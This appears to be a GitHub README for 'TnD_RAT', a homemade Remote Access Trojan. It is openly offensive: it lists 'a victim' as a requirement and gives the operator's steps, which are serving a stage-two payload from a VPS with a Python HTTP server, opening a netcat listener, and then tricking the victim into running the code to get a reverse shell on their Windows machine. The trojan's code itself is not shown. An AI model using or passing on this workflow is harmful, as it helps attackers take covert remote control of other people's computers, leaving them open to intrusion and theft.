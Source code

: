 # TnD_RAT
TnD_RAT is a basic Remote Access Trojan that I made from scratch. I've tested to obtain a reverse shell on a Windows machine using it.

## Requirements
* A virtual private server.
* A terminal to run ssh (preferably LINUX).
* A victim.
* My RAT code. 😉😉

## Usage
* Start the server.
* Connect to the server using the RSA id.
* Navigate to the directory where the RSA id is stored.
* Then run the following command to ssh into the server.
bash ```
  ssh -i id_rsa <username>@IP_Address
```
* After connecting to the server, start a python server in the folder containing stage2 payload.
bash 
python3 -m http.server

* Open another terminal.
* SSH into the server again using this terminal by running the above ssh command.
* Set up a listener by using the following command.
bash 
nc -nlvp <PORT NUMBER>

* Now, trick the victim into running our code on his device. (Make sure that the victim is connected to the internet.)

* Woila!!!  You got a reverse shell into the victim's device.